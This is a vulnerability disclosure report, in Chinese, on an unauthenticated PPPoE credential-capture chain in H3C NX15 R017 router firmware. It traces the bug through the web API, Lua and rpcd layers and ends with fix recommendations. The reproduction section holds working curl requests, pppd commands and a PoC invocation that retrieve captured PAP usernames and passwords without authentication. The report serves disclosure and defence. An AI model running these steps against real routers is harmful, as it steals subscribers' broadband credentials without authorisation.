

# H3C NX15 R017 未授权 PPPoE 凭据恢复漏洞链报告

## 一、漏洞概述

H3C NX15 路由器 NX15V100R017 固件的初始化向导功能中存在一条未授权 PPPoE 凭据恢复链。攻击者无需登录设备管理后台，即可调用向导接口启动设备内置的 PPPoE 凭据同步流程，使设备在 LAN 侧启动 PPPoE 服务端，并在 PPPoE 客户端执行 PAP 认证时记录客户端提交的用户名和密码。随后，攻击者可再次通过未授权向导接口读取该记录结果，造成 PPPoE 宽带账号和密码明文泄露。

该漏洞不是单一接口直接读取已有配置文件，而是由以下几个问题组合形成：

```text
认证前 Wizard API 暴露
  -> 触发 PPPoE 凭据恢复后端对象
  -> 启动 PPPoE server
  -> PPPoE PAP 认证凭据被固件 PPP 组件记录
  -> 未认证接口回读 user/password
```

最终攻击效果是：同一二层网络中的未认证攻击者可触发设备进入 PPPoE 凭据同步模式，并在存在 PPPoE PAP 认证流量时获取客户端提交的 PPPoE 用户名和密码。

## 二、影响范围

- 厂商：H3C
- 产品：H3C NX15 路由器
- 影响版本：NX15V100R017 / R017
- 固件内部 Web 后端：`/www/api`
- 漏洞类型：未授权访问 / 敏感信息泄露 / 凭据恢复功能滥用
- 认证要求：无需管理员认证
- 网络条件：攻击者可访问路由器 Web 管理接口，并与目标设备处于同一二层网络，以便发起或诱导 PPPoE 客户端认证流量
- 影响结果：PPPoE 用户名和密码泄露

## 三、攻击效果与攻击流程

### 1. 攻击前提

攻击成立需要满足以下前提：

- 攻击者可以访问目标设备的 Web 管理地址，例如 `http://192.168.8.1`。
- 攻击者与目标设备处于同一二层网络，能够发起或诱导 PPPoE discovery / PAP 认证流量。
- 目标环境中存在会向设备启动的 PPPoE server 提交认证凭据的 PPPoE 客户端，或攻击者可自行构造 PPPoE 客户端用于验证漏洞链。

### 2. 攻击流程

攻击者可能的完整流程如下：

1. 攻击者接入目标路由器 LAN 或 Wi-Fi 网络。
2. 攻击者无需登录后台，直接调用：

   ```http
   POST /api/wizard/setsyncpppoecfg
   ```

3. 目标设备通过后端对象 `esps.pppoe.olduserpasswd set` 启动 PPPoE 服务端。
4. 攻击者发起或诱导 PPPoE 客户端向目标设备执行 PAP 认证。
5. PPPoE 客户端向目标设备提交用户名和密码。
6. 固件内置 PPP 认证组件将 PAP 用户名和密码记录到运行时文件：

   ```text
   /tmp/pppoe_passwd.txt
   ```

7. 攻击者无需登录后台，再调用：

   ```http
   POST /api/wizard/getsyncpppoecfg
   ```

8. 后端读取 `/tmp/pppoe_passwd.txt`，并在 HTTP JSON 响应中返回：

   ```json
   {
     "data": {
       "user": "...",
       "password": "..."
     }
   }
   ```

### 3. 利用边界

该漏洞不能凭空生成真实 PPPoE 宽带密码。攻击者需要让某个 PPPoE 客户端向设备启动的 PPPoE server 提交认证凭据。PoC 中使用 `pocuser/pocpass` 是为了证明设备确实会捕获并回读 PAP 凭据；在真实攻击场景中，如果旧路由器、客户端设备或用户操作流程向该 PPPoE server 提交真实宽带账号密码，则该凭据会被未授权攻击者读取。

该问题的本质不是“直接读取当前 WAN 配置文件中的已保存 PPPoE 密码”，而是：

```text
未授权触发凭据恢复流程
  -> 让设备充当临时 PPPoE server
  -> 捕获 PAP 提交的用户名和密码
  -> 未授权回读捕获结果
```

## 四、完整漏洞链路

完整链路如下：

```text
POST /api/wizard/setsyncpppoecfg
  |
  v
lighttpd :80
  |
  | fastcgi.server "api" -> /www/api
  | SCRIPT_NAME=/api
  | PATH_INFO=/wizard/setsyncpppoecfg
  v
/www/api main()
  |
  | /wizard branch before FCGI_UserAuth
  v
FCGI_WizardProcess()
  |
  | whitelist hit: /wizard/setsyncpppoecfg
  v
FCGI_WizardProtoProcess()
  |
  | popen("lua /usr/lib/lua/protol_cvt.lua wizard ...")
  v
/usr/lib/lua/protol_cvt.lua
  |
  v
/usr/lib/lua/wizard/setsyncpppoecfg.lua
  |
  | ubus call esps.pppoe.olduserpasswd set {"status":"enable"}
  v
/usr/libexec/rpcd/esps.pppoe.olduserpasswd
  |
  | /usr/sbin/pppoe-server -I br0 -q /usr/sbin/pppd ...
  v
PPPoE PAP credential capture
  |
  v
/tmp/pppoe_passwd.txt
  |
  v
POST /api/wizard/getsyncpppoecfg
  |
  v
JSON response: data.user / data.password
```

## 五、Web 入口与 FastCGI 路径解析

固件的 Web 服务由 `lighttpd` 提供。`/etc/lighttpd/lighttpd.conf` 中可见：

```conf
server.port = 80
fastcgi.server = (
        "api" => (
        "api.handler" => (
        "socket" => "/tmp/api.socket",
        "checklocal" => "disable",
        "bin-path" => "/www/api",
        "max-procs" => 1
        )
        )
)
```

该配置表示 `/api` 是 FastCGI 入口，实际处理程序是：

```text
/www/api
```

因此，外部请求：

```http
POST /api/wizard/setsyncpppoecfg
```

进入 FastCGI 后会被拆分为：

```text
REQUEST_URI = /api/wizard/setsyncpppoecfg
SCRIPT_NAME = /api
PATH_INFO   = /wizard/setsyncpppoecfg
```

`/www/api` 在二进制中读取的是：

```c
getenv("PATH_INFO")
```

因此 IDA 中看到的内部路由是：

```text
/wizard/setsyncpppoecfg
/wizard/getsyncpppoecfg
```

这解释了为什么 PoC 请求路径包含 `/api/wizard/...`，而 `/www/api` 二进制中匹配的是 `/wizard/...`。

同一配置文件中还存在 rewrite 规则：

```conf
url.rewrite = (
    "^/(assets)/(.*)$" => "/$1/$2",
    "^/(download)/(.*)$" => "/$1/$2",
    "^(/(?!(api|images/)).*)" => "/index20250423135416.htm"
)
```

其作用是：

```text
/assets/...    保持原样，用于前端静态资源
/download/...  保持原样，用于下载资源
/api/...       不 rewrite，交给 FastCGI 后端
/images/...    不 rewrite，作为图片资源
其它路径       rewrite 到 /index20250423135416.htm，由前端 SPA 接管路由
```

因此 `/api/wizard/setsyncpppoecfg` 不会被 rewrite 到前端首页，而是进入 FastCGI 后端 `/www/api`。

## 六、认证前 Wizard 分支分析

对 `/www/api` 进行逆向分析可见，其 `main()` 中按 `PATH_INFO` 进行路由分发。核心逻辑可概括为：

```c
path = getenv("PATH_INFO");

if (!strncmp(path, "/login", 6)) {
    FCIG_LoginProcess(path);
}
else if (!strncmp(path, "/wizard", 7)) {
    FCGI_WizardProcess(path);
}
else if (!strncmp(path, "/debug", 6)) {
    FCGI_TelnetCtl();
}
else {
    auth = getenv("HTTP_AUTHENTICATION");
    if (FCGI_UserAuth(auth, &code)) {
        FCGI_BeforAuthReply(code, 0);
    }
    ...
}
```

关键问题在于：

```text
/wizard 分支位于 HTTP_AUTHENTICATION / FCGI_UserAuth 认证逻辑之前。
```

也就是说，请求只要在 FastCGI 内部表现为：

```text
PATH_INFO=/wizard/...
```

就会优先进入 `FCGI_WizardProcess()`，不会先经过普通后台接口使用的 `FCGI_UserAuth()` 认证检查。

这构成了本漏洞的未授权访问基础。

## 七、Wizard 白名单与协议转换

`FCGI_WizardProcess()` 内部对白名单路径进行判断，其中明确包含：

```text
/wizard/setsyncpppoecfg
/wizard/getsyncpppoecfg
```

命中白名单后，程序调用：

```text
FCGI_WizardProtoProcess()
```

`FCGI_WizardProtoProcess()` 会构造并执行 Lua 协议转换命令。带 POST body 时，命令形式为：

```text
lua /usr/lib/lua/protol_cvt.lua wizard '<PATH_INFO>' '<POST body>'
```

以本漏洞接口为例，外部请求：

```http
POST /api/wizard/setsyncpppoecfg
```

进入 `/www/api` 后实际执行的逻辑等价于：

```bash
lua /usr/lib/lua/protol_cvt.lua wizard '/wizard/setsyncpppoecfg' '{}'
```

这说明 `/www/api` 只负责 FastCGI 入口、认证边界和路径分发，真正的后端对象调用由 Lua 协议转换层完成。

## 八、Lua 到 ubus 的映射逻辑

`/usr/lib/lua/protol_cvt.lua` 是 HTTP Wizard 接口与 ubus/rpcd 后端对象之间的协议转换器。其关键逻辑如下：

```lua
local proto = arg[1]
local method = arg[2]
local para = arg[3]

local protoModulePath = ";/usr/lib/lua/"..proto.."/?.lua"
package.path = package.path..protoModulePath

local protoModule = require (proto)
local protoMethod = protoModule.find_cmd_method(method)
methodObj = require(protoMethod)

local ubuscmd = methodObj.find_ubus_cmd(method_para_info)
local conn = ubus.connect()
data.result = conn:call(v.path, v.func, v.args)
```

对于 `setsyncpppoecfg`，参数值为：

```text
proto  = wizard
method = /wizard/setsyncpppoecfg
para   = {}
```

`protol_cvt.lua` 首先将 Lua 模块搜索路径扩展为：

```text
/usr/lib/lua/wizard/?.lua
```

随后加载：

```text
/usr/lib/lua/wizard/wizard.lua
```

该模块通过 `find_cmd_method()` 从路径中提取最后一段：

```text
/wizard/setsyncpppoecfg -> setsyncpppoecfg
/wizard/getsyncpppoecfg -> getsyncpppoecfg
```

然后分别加载：

```text
/usr/lib/lua/wizard/setsyncpppoecfg.lua
/usr/lib/lua/wizard/getsyncpppoecfg.lua
```

这些接口模块通过 `find_ubus_cmd()` 生成具体的 ubus 调用计划，最终由：

```lua
conn:call(v.path, v.func, v.args)
```

真正调用后端 rpcd 对象。

## 九、setsyncpppoecfg 映射到敏感后端对象

`/usr/lib/lua/wizard/setsyncpppoecfg.lua` 中的关键逻辑：

```lua
ubus_cmd[1] = {
    ["id"]=1,
    ["path"]="esps.pppoe.olduserpasswd",
    ["func"]="set",
    ["args"]={["status"]="enable"},
    ["type"]=0
}
```


因此，未认证请求：

```http
POST /api/wizard/setsyncpppoecfg
```

最终等价于后端调用：

```bash
ubus call esps.pppoe.olduserpasswd set '{"status":"enable"}'
```

该调用会进入 PPPoE 凭据恢复后端对象的 `set` 分支，用于启动 PPPoE 同步流程。

## 十、getsyncpppoecfg 明文透传用户名与密码

`/usr/lib/lua/wizard/getsyncpppoecfg.lua` 中的关键逻辑：

```lua
ubus_cmd[1] = {
    ["id"]=1,
    ["path"]="esps.pppoe.olduserpasswd",
    ["func"]="get",
    ["args"]={},
    ["type"]=0
}
```

返回值中显式提取并透传：

```lua
data["user"] = tostring(dt[1].result.data.user)
data["password"] = tostring(dt[1].result.data.password)
```



因此，未认证请求：

```http
POST /api/wizard/getsyncpppoecfg
```

最终等价于后端调用：

```bash
ubus call esps.pppoe.olduserpasswd get '{}'
```

并将后端返回的 PPPoE 用户名和密码直接作为 HTTP JSON 响应返回给调用者。

## 十一、后端对象 esps.pppoe.olduserpasswd 分析

后端对象路径：

```text
/usr/libexec/rpcd/esps.pppoe.olduserpasswd
```

该文件为 shell 脚本，关键变量如下：

```sh
PPPOE_SERVER="/usr/sbin/pppoe-server"
PPPD="/usr/sbin/pppd"
LAN="br0"
PPPOE_CONFFILE="/etc/ppp/pppoe-server-options"
PPPOE_PIDFILE="/var/run/pppoe-server.pid"
PASSWD_FILE="/tmp/pppoe_passwd.txt"
```

### 1. set 分支启动 PPPoE server

`set` 分支会删除旧凭据文件，并在 `status=enable` 时启动 PPPoE 服务端：

```sh
if [ -e $PASSWD_FILE ]; then
    rm -rf $PASSWD_FILE
fi

if [ $_status == "enable" ]; then
    $PPPOE_SERVER -I $LAN -q $PPPD -O $PPPOE_CONFFILE -X $PPPOE_PIDFILE
fi
```

该命令实际展开为：

```sh
/usr/sbin/pppoe-server -I br0 \
  -q /usr/sbin/pppd \
  -O /etc/ppp/pppoe-server-options \
  -X /var/run/pppoe-server.pid
```

这说明 `setsyncpppoecfg` 会使设备在 LAN 桥 `br0` 上启动 PPPoE server。

### 2. get 分支读取凭据文件并返回

`get` 分支会读取 `/tmp/pppoe_passwd.txt`：

```sh
if [ -e $PASSWD_FILE ]; then
    user=$(cat $PASSWD_FILE | grep  User | awk -F: '{print $2}')
    passwd=$(cat $PASSWD_FILE | grep  Password | awk -F: '{print $2}')

    json_add_string "user" $user
    json_add_string "password" $passwd
fi
```

这说明 `getsyncpppoecfg` 的返回值不是前端构造的，而是后端脚本从运行时凭据文件中读取后生成的 JSON 响应。

## 十二、PPPoE 服务端认证配置与凭据记录

PPPoE server 使用的认证配置文件为：

```text
/etc/ppp/pppoe-server-options
```

内容如下：

```conf
require-pap
login
lcp-echo-interval 10
lcp-echo-failure 2
```

其中：

```text
require-pap
```

表示 PPP 服务端要求客户端执行 PAP 认证。PAP 认证过程中，客户端会向 PPP 服务端提交用户名和密码。

固件内置的 `/usr/sbin/pppd` 二进制中存在以下凭据落盘相关字符串：

```text
/tmp/pppoe_passwd.txt
PPPoe User:%s
PPPoe Password:%s
```

这些字符串表明该固件的 PPP 认证组件包含厂商定制的凭据记录逻辑。当 `pppoe-server` 通过 `require-pap` 要求客户端执行 PAP 认证时，客户端提交的 PPPoE 用户名和密码会被记录到 `/tmp/pppoe_passwd.txt`，随后可被 `esps.pppoe.olduserpasswd get` 分支读取并返回。

### 关键证据摘录

为便于复核，关键证据可压缩为以下四组：

1. `www/api` 将 `/wizard` 放在认证前分支：

```c
path = getenv("PATH_INFO");

if (!strncmp(path, "/login", 6)) {
    ...
}
else if (!strncmp(path, "/wizard", 7)) {
    FCGI_WizardProcess(path);
}
else {
    auth = getenv("HTTP_AUTHENTICATION");
    if (FCGI_UserAuth(auth, &code)) {
        ...
    }
}
```

2. `setsyncpppoecfg.lua` 将接口映射到敏感后端对象：

```lua
ubus_cmd[1] = {
    ["path"]="esps.pppoe.olduserpasswd",
    ["func"]="set",
    ["args"]={["status"]="enable"}
}
```

3. `getsyncpppoecfg.lua` 直接透传后端返回的用户名和密码：

```lua
ubus_cmd[1] = {
    ["path"]="esps.pppoe.olduserpasswd",
    ["func"]="get",
    ["args"]={}
}

data["user"] = tostring(dt[1].result.data.user)
data["password"] = tostring(dt[1].result.data.password)
```

4. `esps.pppoe.olduserpasswd` 启动 PPPoE server 并读取凭据文件：

```sh
PASSWD_FILE="/tmp/pppoe_passwd.txt"

$PPPOE_SERVER -I $LAN -q $PPPD -O $PPPOE_CONFFILE -X $PPPOE_PIDFILE

user=$(cat $PASSWD_FILE | grep  User | awk -F: '{print $2}')
passwd=$(cat $PASSWD_FILE | grep  Password | awk -F: '{print $2}')
```

再结合 `/usr/sbin/pppd` 中的字符串：

```text
/tmp/pppoe_passwd.txt
PPPoe User:%s
PPPoe Password:%s
```

即可形成完整证据闭环。

## 十三、复现步骤

### 1. 实验环境准备

建议使用一台实体 Linux 主机通过网线直连目标路由器 LAN 口进行复现，不建议优先使用 WSL2 或普通 NAT 虚拟机，因为 PPPoE discovery / session 依赖二层以太网帧，虚拟网络环境可能无法正确转发 `0x8863/0x8864` 类型流量。

建议准备条件如下：

- 目标设备：H3C NX15，固件版本 `NX15V100R017`
- 测试机：实体 Linux 主机
- 连接方式：测试机直连路由器 `LAN` 口，不使用 `WAN` 口
- 路由器管理地址：例如 `http://192.168.8.1`

测试机需要安装以下工具：

```bash
sudo apt update
sudo apt install -y curl ppp pppoe tcpdump
```

安装完成后，确认核心程序存在：

```bash
command -v curl pppd pppoe-discovery
```

确认访问目标路由器的网卡：

```bash
ip route get 192.168.8.1
```

输出中会出现类似：

```text
192.168.8.1 dev eno1 src 192.168.8.100
```

其中：

```text
dev eno1
```

表示复现时应使用的物理网卡是 `eno1`。

如果需要查看当前所有网卡，也可执行：

```bash
ip -br addr
ip -br link
```

确认 `pppd` 使用的 `rp-pppoe.so` 插件路径：

```bash
find /usr/lib /lib -name rp-pppoe.so 2>/dev/null
```

典型输出示例：

```text
/usr/lib/pppd/2.4.9/rp-pppoe.so
```

建议将该路径记录下来，后续 `pppd` 命令会直接使用。

### 2. 触发未授权 PPPoE 同步服务

攻击者无需携带登录 token 或 `HTTP_AUTHENTICATION` 头，直接请求：

```bash
curl -sS -X POST 'http://192.168.8.1/api/wizard/setsyncpppoecfg' \
  -H 'Content-Type: application/json' \
  --data '{}'
```

预期效果：

```text
设备启动 PPPoE server 相关进程。
```

### 3. 确认目标设备响应 PPPoE discovery

在触发 `setsyncpppoecfg` 后，立即在与目标设备同二层的物理网卡上执行：

```bash
sleep 1
sudo pppoe-discovery -I <network-interface>
```

例如，如果通过 `ip route get 192.168.8.1` 确认使用网卡 `eno1`，则执行：

```bash
sleep 1
sudo pppoe-discovery -I eno1
```

预期应看到 PPPoE discovery 的响应，例如 Access Concentrator / PADO 相关输出。  
如果未收到任何响应，应优先检查：

- 是否连接的是路由器 `LAN` 口而不是 `WAN` 口
- `setsyncpppoecfg` 是否刚刚执行成功
- 使用的是否是正确的物理网卡

如需抓包确认，可在测试机上执行：

```bash
sudo tcpdump -i <network-interface> -enn -vvv 'ether proto 0x8863 or ether proto 0x8864'
```

预期至少能看到客户端发出的：

```text
PPPoE PADI
```

若目标设备响应正常，还应看到返回的：

```text
PPPoE PADO
```

### 4. 从同二层主机发起真实 PPPoE PAP 认证

确认 discovery 成功后，使用 `pppd` 发起真实 PAP 认证。  
以下命令中的：

- `<network-interface>` 替换为实际物理网卡名，例如 `eno1`
- `<rp-pppoe.so-path>` 替换为前一步找到的插件路径，例如 `/usr/lib/pppd/2.4.9/rp-pppoe.so`

可使用附件 PoC 自动完成触发、发现、认证和回读：

```bash
sudo BASE_URL=http://192.168.8.1 IFACE=<network-interface> \
  USER_NAME=pocuser PASSWORD=pocpass \
  bash poc/08_preauth_wizard_pppoe_credential_recovery.sh
```

也可手工执行 `pppd`：

```bash
sudo timeout 25s pppd \
  plugin <rp-pppoe.so-path> \
  nic-<network-interface> \
  user pocuser \
  password pocpass \
  noauth \
  nodetach \
  debug \
  logfile /tmp/pppoe-client.log \
  noipdefault \
  nodefaultroute \
  mtu 1492 \
  mru 1492 \
  refuse-eap \
  refuse-chap \
  refuse-mschap \
  refuse-mschap-v2 || true
```

例如，在 `eno1` 上使用 `/usr/lib/pppd/2.4.9/rp-pppoe.so`：

```bash
sudo timeout 25s pppd \
  plugin /usr/lib/pppd/2.4.9/rp-pppoe.so \
  nic-eno1 \
  user pocuser \
  password pocpass \
  noauth \
  nodetach \
  debug \
  logfile /tmp/pppoe-client.log \
  noipdefault \
  nodefaultroute \
  mtu 1492 \
  mru 1492 \
  refuse-eap \
  refuse-chap \
  refuse-mschap \
  refuse-mschap-v2 || true
```

该命令的目的不是建立长期可用的 PPP 会话，而是确保客户端通过 **PAP** 向目标设备提交：

```text
user = pocuser
password = pocpass
```

执行完成后可查看本地客户端日志：

```bash
tail -100 /tmp/pppoe-client.log
```

PoC 脚本会自动执行以下步骤：

```text
1. 调用 setsyncpppoecfg
2. 执行 pppoe-discovery
3. 使用 pppd 发起 PAP 认证并提交 USER_NAME/PASSWORD
4. 调用 getsyncpppoecfg 回读结果
5. 输出本地 PPPoE 客户端日志
```

### 5. 读取恢复到的凭据

也可手动请求：

```bash
curl -sS -X POST 'http://192.168.8.1/api/wizard/getsyncpppoecfg' \
  -H 'Content-Type: application/json' \
  --data '{}'
```

预期结果中可看到 PPPoE 用户名和密码字段，内容与发起 PPPoE PAP 认证时提交的凭据一致：

```json
{
  "code": 0,
  "message": "Success",
  "data": {
    "user": "pocuser",
    "password": "pocpass"
  }
}
```

### 6. 成功判据

复现成功时，应同时满足以下条件：

- `POST /api/wizard/setsyncpppoecfg` 在未认证状态下返回成功
- `pppoe-discovery` 能收到目标设备返回的 PPPoE discovery 响应
- `pppd` 客户端日志中出现 PAP 认证过程
- `POST /api/wizard/getsyncpppoecfg` 在未认证状态下返回：

```json
{
  "data": {
    "user": "pocuser",
    "password": "pocpass"
  }
}
```

- 返回结果中的 `user/password` 与测试机发起 PAP 认证时提交的值完全一致

## 十四、验证结果

在 NX15V100R017 测试设备上，使用如下测试凭据：

```text
user = pocuser
password = pocpass
```

完成 PPPoE PAP 认证后，未认证调用：

```text
POST /api/wizard/getsyncpppoecfg
```

可以读取到相同的用户名和密码，证明以下事实成立：

```text
[x] setsyncpppoecfg 未认证可调用
[x] 设备可被未认证请求触发启动 PPPoE server
[x] PPPoE PAP 凭据会被固件记录
[x] getsyncpppoecfg 未认证可读取记录到的 user/password
```

对复核方而言，最直接的成功判据是：

- `setsyncpppoecfg` 与 `getsyncpppoecfg` 请求均无需任何登录头或会话 token。
- PoC 中提交的 `pocuser/pocpass` 与接口返回的 `data.user/data.password` 完全一致。
- 返回值中的 `password` 为明文，而非掩码、摘要或加密值。

## 十五、危害说明

该漏洞可能造成以下影响：

- 泄露 PPPoE 宽带账号和密码。
- 造成运营商网络接入账号被冒用。
- 攻击者可尝试使用泄露凭据进行其它网络接入、撞库或账号关联攻击。
- 攻击者可干扰或滥用设备的 PPPoE 账号同步/找回流程。
- 未认证接口可被局域网内攻击者直接调用，攻击门槛较低。

需要注意的是，该漏洞的实际利用通常要求攻击者处于目标设备同一二层网络中，或能够诱导具有真实 PPPoE 凭据的客户端向目标设备启动的 PPPoE server 认证。

## 十六、固件内定位路径

以下路径均为相对于解压后固件根文件系统的固件内部路径：

- `/etc/lighttpd/lighttpd.conf`：定义 `/api` 到 `/www/api` 的 FastCGI 映射，以及前端 SPA rewrite 规则。
- `/www/api`：Web API FastCGI 二进制，负责读取 `PATH_INFO` 并分发 `/login`、`/wizard`、`/debug` 和认证后 API。
- `/usr/lib/lua/protol_cvt.lua`：协议转换层，根据 `proto/method` 加载 Lua 模块并执行 ubus 调用。
- `/usr/lib/lua/wizard/wizard.lua`：从 `/wizard/<method>` 路径中提取具体方法名。
- `/usr/lib/lua/wizard/setsyncpppoecfg.lua`：将 `setsyncpppoecfg` 映射到 `esps.pppoe.olduserpasswd set`。
- `/usr/lib/lua/wizard/getsyncpppoecfg.lua`：将 `getsyncpppoecfg` 映射到 `esps.pppoe.olduserpasswd get`，并透传 `user/password`。
- `/usr/libexec/rpcd/esps.pppoe.olduserpasswd`：PPPoE 凭据同步后端对象，实现 `set` 与 `get`。
- `/usr/sbin/pppoe-server`：后端启动的 PPPoE 服务端程序。
- `/usr/sbin/pppd`：PPP 认证相关程序，固件中包含凭据记录字符串。
- `/etc/ppp/pppoe-server-options`：PPPoE 服务端认证选项配置，要求 `require-pap`。
- `/tmp/pppoe_passwd.txt`：运行时凭据记录文件路径。

## 十七、修复建议

建议厂商从认证边界、功能设计和敏感数据处理三个层面修复：

1. 对 `/api/wizard/setsyncpppoecfg` 和 `/api/wizard/getsyncpppoecfg` 强制要求管理员认证，不应让其位于 `FCGI_UserAuth` 之前的认证前路径。
2. 设备完成首次初始化后，应禁止未认证访问敏感 Wizard 功能，尤其是会启动服务、改变运行状态或读取敏感信息的接口。
3. `getsyncpppoecfg` 不应通过 Web API 明文返回 PPPoE 密码。如确需同步，应使用一次性授权流程，并对密码做脱敏或避免返回明文。
4. `/tmp/pppoe_passwd.txt` 应设置最小权限、短生命周期，并在读取后立即清理。
5. PPP 认证组件不应默认将 PAP 明文凭据写入可被其它后端接口读取的临时文件。
6. 对 PPPoE 凭据同步功能增加调用审计、来源限制和速率限制。

## 十八、附件

- 主报告：`report/08_setsyncpppoecfg_runtime_analysis.md`
- PoC：`poc/08_preauth_wizard_pppoe_credential_recovery.sh`
